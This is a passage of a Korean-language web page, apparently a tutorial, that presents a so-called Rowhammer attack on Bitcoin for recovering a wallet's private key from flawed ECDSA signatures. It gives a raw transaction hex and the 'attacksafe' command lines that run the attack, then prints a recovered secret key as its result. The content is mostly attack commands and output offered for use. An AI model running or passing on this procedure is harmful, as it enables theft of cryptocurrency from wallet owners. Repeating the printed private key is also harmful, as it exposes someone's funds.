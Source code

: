 
<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-123-1024x631.png" alt="서명 오류를 사용하여 Bitcoin 지갑에 대한 개인 키를 얻는 방법(Bitcoin에 대한 Rowhammer 공격)" class="wp-image-1197"/></figure>



<p>그런 다음 선택<code>&nbsp;-tool: rowhammer_attack</code></p>



<p>취약한 ECDSA 서명 트랜잭션에서 비밀 키를 얻기 위해 데이터를&nbsp;<code>RawTX</code>텍스트 문서에 추가하고 파일로 저장해 봅시다.<code>RawTX.txt</code></p>



<pre class="wp-block-code"><code>0100000001cb9a792b88760ad20c67047c06d016ba4a069d036c4fbc5c09a8055fe786580f300000006a4730440220331353fedfd6e4d6805fc1f06443ade552a43a43237fb6c3de3c7f0969b4cc6702200bfec7e7d2ae249b3d69cd8d666b5ee833394af3b0703fa023579200d9ab2ff401210335a395eca8191c43ccee4d91e98b9baef39476d7482cf636e5b71975c69feebdffffffff013a020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2><code>-tool rowhammer_attack</code>소프트웨어를 사용하여&nbsp;실행<code>“ATTACKSAFE SOFTWARE”</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code"><code>./attacksafe -tool rowhammer_attack -open RawTX.txt -save SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-125-1024x275.png" alt="서명 오류를 사용하여 Bitcoin 지갑에 대한 개인 키를 얻는 방법(Bitcoin에 대한 Rowhammer 공격)" class="wp-image-1200"/></figure>



<p>우리는 이 공격을 시작했고&nbsp;<code>-tool rowhammer_attack</code>그 결과는 파일에 저장되었습니다.<code>SecretKey.txt</code></p>



<p>이제 성공적인 결과를 보려면 파일을 엽니다.<code>SecretKey.txt</code></p>



<pre class="wp-block-code"><code>cat SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-126-1024x493.png" alt="서명 오류를 사용하여 Bitcoin 지갑에 대한 개인 키를 얻는 방법(Bitcoin에 대한 Rowhammer 공격)" class="wp-image-1203"/></figure>



<pre class="wp-block-code"><code>Deployments ECDSA:

SecretKey = 0x6251240a6cb656310dbd7f0da53a315ab88ec253352a5d5481ee08e977b6ef2d

RawTX = 0100000001cb9a792b88760ad20c67047c06d016ba4a069d036c4fbc5c09a8055fe786580f300000006a4730440220331353fedfd6e4d6805fc1f06443ade552a43a43237fb6c3de3c7f0969b4cc6702200bfec7e7d2ae249b3d69cd8d666b5ee833394af3b0703fa023579200d9ab2ff401210335a395eca8191c43ccee4d91e98b9baef39476d7482cf636e5b71975c69feebdffffffff013a020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000</code></pre>
